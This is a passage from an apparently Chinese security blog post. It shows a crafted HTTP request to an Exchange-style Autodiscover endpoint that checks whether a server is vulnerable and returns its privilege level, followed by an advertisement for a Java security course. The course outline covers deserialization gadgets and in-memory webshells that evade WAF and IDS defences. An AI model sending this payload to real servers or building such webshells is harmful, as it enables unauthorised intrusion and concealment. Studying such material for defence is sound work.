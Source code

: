 ![](https://gitee.com/fuli009/images/raw/master/public/20210811181111.png)

最终payload

![](https://gitee.com/fuli009/images/raw/master/public/20210811181112.png)

如果服务器存在漏洞，则返回当前权限。

    
    
    GET /Autodiscover/autodiscover.json?a=unicodesec@unicodesec.com/mapi/nspi HTTP/2  
    Host: localhost  
    Accept: */*  
    Cookie: Email=Autodiscover/autodiscover.json?a=unicodesec@unicodesec.com  
    Content-Length: 0  
    

下一部分将分享exp的编写方法

欢迎大家报名线上java课程，从代码审计的角度讲解基础漏洞以及Java特有的安全漏洞。

Java安全课程目录，由于篇幅原因只分享部分课程目录，前面还会有很多基础的内容，我会整理为pdf文档发给大家。

#### 第一章

Classloader 原理以及在java安全中的使用

主要讲解Classloader的原理，不同classloader的类型，双亲委派模型以及如何通过反射调用defineClass。在后面的java漏洞利用中，classloader作为将类与JVM的桥梁将会扮演很重要的角色。

##### 讲解内容

classloader的原理，以及如何动态加载一个class文件

###### 双亲委派模型

Tomcat中classloader的讲解，在tomcat中，并没有完全遵守双亲委派模型。为了实现更好的隔离，tomcat使用另外一种方式实现classloader
几种常见的classloader的使用讲解以及在不同漏洞中的利用方法

#### 第二章

Java
asm字节码的使用指南。在java反序列化的payload中，需要动态生成一个javaclass文件。可以通过手工，根据jvm指令构造。也可以通过javaassist自带的编译器构造。

##### 讲解内容

动态生成字节码在java中的作用 javaassist的使用指南 java asm的使用指南 java asm在ysoserial中的使用情况 再探Java
反射原理，使用java asm实现反射机制

#### 第四章

java反序列化协议解析， java 序列化的流协议解读 java ObjectInputstream代码解析 如何实现python读写java 流
python生成 8u20gadget 8u20 漏洞的原理 python生成反序列化Gadget的方法

#### 第七章

内存马实战与查杀。为了更好地对抗ids，waf设备。利用注入内存马技术，修改java中间件中url对应对象的路由部分。在很多waf规则防护中，一般只认为用户请求的url的后缀为jsp才会产生webshell请求，但是我们可以将请求某个静态文件的路由映射到webshell对象中去骗过waf等安全设备
